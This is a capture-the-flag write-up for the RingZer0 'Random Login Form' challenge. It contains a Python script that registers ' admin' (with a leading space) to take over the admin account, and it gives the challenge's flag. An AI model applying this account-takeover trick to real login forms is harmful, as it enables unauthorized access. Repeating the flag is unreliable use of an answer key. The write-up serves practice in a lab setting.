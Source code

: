 <h1>Random Login Form</h1>
<h3>Description</h3>
<p>http://challenges.ringzer0ctf.com:10171/</p>
<h3>Solution</h3>

```python3
import requests

s = requests.Session()
url = "http://challenges.ringzer0ctf.com:10171/"
data = {"new":" admin","new_password":"1234","submit":"Register"}
res = s.post(url,data=data).text
data = {"username":" admin","password":"1234"}
res = s.post(url,data=data).text
print(res)
```

<h3>Flag</h3>
<pre>
FLAG-0Kg64o8M9gPQfH45583Mc0jc3u
</pre>
